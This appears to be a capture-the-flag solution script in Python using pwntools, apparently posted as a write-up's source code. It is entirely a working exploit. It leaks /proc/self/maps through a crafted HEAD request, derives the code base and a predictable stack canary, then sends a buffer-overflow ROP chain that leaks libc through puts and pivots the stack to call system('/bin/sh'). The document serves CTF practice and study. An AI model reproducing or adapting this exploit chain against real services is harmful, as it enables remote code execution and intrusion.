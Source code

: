 ```python=

if len(sys.argv) == 1:
  r = process([binary, "0"], env={"LD_LIBRARY_PATH":"."})
  #r = remote("127.0.0.1" ,4444)

else:
  r = remote(host ,port)
  r.recvuntil("Challenge: ")
  Challenge = r.recvuntil("\n")[:-1]
  r.recvuntil("n:")
  n = r.recvuntil("\n")[:-1]
  r.recvuntil("Solution:")
  p = process(["/usr/bin/python", "./pow.py",Challenge ,n ])
  print "pow..."
  p.recvuntil("Solution: ")
  ans = p.recvuntil(" ")[:-1]
  r.sendline(ans)

if __name__ == '__main__':
  print "start"
  r.recvuntil("Standing by for your requests\n")
  r.sendline("HEAD /proc/self/maps\x00" + "A"*0x42)
  r.recvuntil("Here's your preview:\n")
  data = r.recvuntil("\n")
  if "/lib/x86_64-linux-gnu/ld-2" in data:
    ld_addr = data[:data.find("-")]
    r.recvuntil("\n")
    r.recvuntil("\n")
    data = r.recvuntil("\n")
    if "r-xp" in data:
      code = data[:data.find('-')]
    else:
      data = r.recvuntil("\n")
      code = data[:data.find('-')]
  elif "r-xp" in data:
    code = data[:data.find('-')]
    r.recvuntil("\n")
    r.recvuntil("\n")
    data = r.recvuntil("\n")
    ld_addr = data[:data.find("-")]
  ld_addr = int(ld_addr,16)
  code = int(code,16)
  pop_rdi = 0x00000000000010b3 + code
  pop_rsi_1 = 0x00000000000010b1 + code
  puts_got = code + 0x202020
  puts_plt = code + 0x0009E0
  read_plt = code + 0x000A60
  pop_rsp_3 = code + 0x00000000000010ad
  print "code =", hex(code)
  print "ld_addr =" ,hex(ld_addr)
  canary = (code/0x1000 + ld_addr/0x1000 * 0x10000000)*0x100
  print "canary =" , hex(canary)
  raw_input("@")
  r.sendline("A"*88 + p64(canary) +"A"*8+ p64(pop_rdi) + p64(puts_got) + p64(puts_plt)  + p64(pop_rdi) + p64(0) + p64(pop_rsi_1) + p64(code + 0x0202800) + p64(0) + p64(read_plt) + p64(pop_rsp_3) + p64(code + 0x0202800))
  r.recvuntil("Malformed request\n")

  puts = u64(r.recv(6).ljust(8,"\x00"))
  libc.address = puts - libc.symbols['puts']
  print "libc.address =" , hex(libc.address)
  r.sendline("A"*24 + p64(pop_rdi) + p64(code + 0x0202800+0x30) + p64(libc.symbols['system']) + "/bin/sh\x00")
```